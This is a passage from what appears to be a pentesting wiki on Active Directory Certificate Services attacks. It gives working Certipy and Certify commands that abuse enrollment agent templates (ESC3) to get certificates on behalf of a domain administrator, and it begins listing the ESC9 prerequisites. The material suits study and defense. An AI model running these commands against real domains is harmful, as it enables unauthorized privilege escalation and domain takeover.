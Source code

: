 ```bash
certipy req -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -target "$ADCS_HOST" -ca 'ca_name' -template 'User' -on-behalf-of 'domain\domain admin' -pfx 'user.pfx'
```

> [!TIP]
> By default, Certipy uses LDAPS, which is not always supported by the domain controllers. The `-scheme` flag can be used to set whether to use LDAP or LDAPS.


=== Windows

From Windows systems, the [Certify](https://github.com/GhostPack/Certify) (C#) tool can be used.

```powershell
# Find vulnerable/abusable certificate templates using default low-privileged group
Certify.exe find /vulnerable

# Find vulnerable/abusable certificate templates using all groups the current user context is a part of:
Certify.exe find /vulnerable /currentuser
```

Once a vulnerable template is found, a request shall be made to obtain a certificate specifying the Certificate Request Agent EKU.

```powershell
Certify.exe request /ca:'domain\ca' /template:"Vulnerable template"
```

Then, the issued certificate can be used to request another certificate permitting `Client Authentication` on behalf of another user.

```powershell
Certify.exe request /ca:'domain\ca' /template:"User" /onbehalfon:DOMAIN\Admin /enrollcert:enrollmentAgentCert.pfx /enrollcertpw:Passw0rd!
```

:::


### (ESC9) No security extension 

To understand this privilege escalation, it is recommended to know how certificate mapping is performed. It is presented in [this section](certificate-templates.md#certificate-mapping).

If the certificate attribute `msPKI-Enrollment-Flag` contains the flag `CT_FLAG_NO_SECURITY_EXTENSION`, the `szOID_NTDS_CA_SECURITY_EXT` extension will not be embedded, meaning that even with `StrongCertificateBindingEnforcement` set to `1`, the mapping will be performed similarly as a value of `0` in the registry key.

Here are the requirements to perform ESC9:

* `StrongCertificateBindingEnforcement` not set to `2` (default: `1`) or `CertificateMappingMethods` contains `UPN` flag (`0x4`)
* The template contains the `CT_FLAG_NO_SECURITY_EXTENSION` flag in the `msPKI-Enrollment-Flag` value
* The template specifies client authentication
* `GenericWrite` right against any account A to compromise any account B
